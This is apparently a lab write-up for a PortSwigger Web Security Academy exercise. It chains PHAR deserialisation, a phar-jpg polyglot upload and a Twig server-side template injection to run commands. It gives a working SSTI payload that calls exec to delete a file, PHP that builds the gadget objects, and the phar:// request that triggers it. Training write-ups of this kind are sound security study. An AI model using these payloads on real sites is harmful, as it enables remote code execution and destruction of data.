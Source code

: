 # Using PHAR deserialisation to deploy a custom gadget chain

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain) does not explicitly use deserialisation. However, if you combine PHAR deserialisation with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain. 

## Reproduction and proof of concept

1. Observe that the website has a feature for uploading your own avatar, which only accepts JPG images. Upload a valid JPG as your avatar. Notice that it is loaded using `GET /cgi-bin/avatar.php?avatar=wiener`.
2. In Burp Repeater, request `GET /cgi-bin` to find an index that shows a `Blog.php` and `CustomTemplate.php` file. Obtain the source code by requesting the files using the `.php~` backup extension.
3. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes.
4. Notice that the `file_exists()` filesystem method is called on the `lockFilePath` attribute.
5. Notice that the website uses the Twig template engine. You can use deserialisation to pass in an server-side template injection (SSTI) payload. Find a documented SSTI payload for remote code execution on [Twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig), and adapt it to delete Carlos's file:

```text
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

6. Write some PHP for creating a `CustomTemplate` and `Blog` containing your SSTI payload:

```text
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```

7. Create a [phar-jpg polyglot](https://github.com/kunte0/phar-jpg-polyglot) containing the PHP script. 
8. Upload this file as your avatar.
9. In Burp Repeater, modify the request line to deserialise your malicious avatar using a `phar:// stream` as follows:

```text
GET /cgi-bin/avatar.php?avatar=phar://wiener
```
    
10. Send the request to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 
